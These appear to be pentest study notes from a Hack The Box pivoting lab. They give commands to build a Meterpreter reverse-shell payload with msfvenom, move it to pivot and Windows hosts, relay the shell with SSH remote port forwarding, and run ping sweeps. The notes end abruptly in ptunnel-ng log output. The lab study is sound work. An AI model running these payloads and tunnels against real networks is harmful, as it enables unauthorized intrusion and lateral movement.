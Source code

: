 - `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`   →transfer this payload to pivot host
- `python3 -m http.server 8123` → create http server on pivot machine to transfer this payload

- `PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` → on windows download the payload from pivot machine

Once revshell is transferred to windows, we will use `SSH remote port forwarding` to forward connections from ubuntu servers port 8080 to msfconsole’s port 8000

```bash
dollarboysushil@htb[/htb]**$** ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

`-vN`  → to make verbose and not to prompt login shell

`-R`  → asks ubuntu server to listen`<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

## **Meterpreter Tunneling & Port Forwarding**

If we have `meterpreter shell` access on Ubuntu server (pivot server), and we want to perform enumeration scans through the pivot host.
We can create a pivot with our meterpreter session without relying on ssh port forwarding.

- `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080` → creating payload for ubuntu pivot host
- `use exploit/multi/handler` → setting up multi/handler (setting lhost=0.0.0.0)
    
    then transfer this payload to ubuntu pivot host
    
- `./backupjob` → execute payload in pivot host

### **Ping Sweep**

We know that the Windows target is on the `172.16.5.0/23` network. Assuming windows target allows icmp request, we can use `ping_sweep` module in metsploit.

- `run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`

### **Ping Sweep For Loop on Linux Pivot Hosts**

- `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`

### **Ping Sweep For Loop Using CMD**

- `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`

### **Ping Sweep Using PowerShell**

- `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`

<aside>
💡 Note: It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.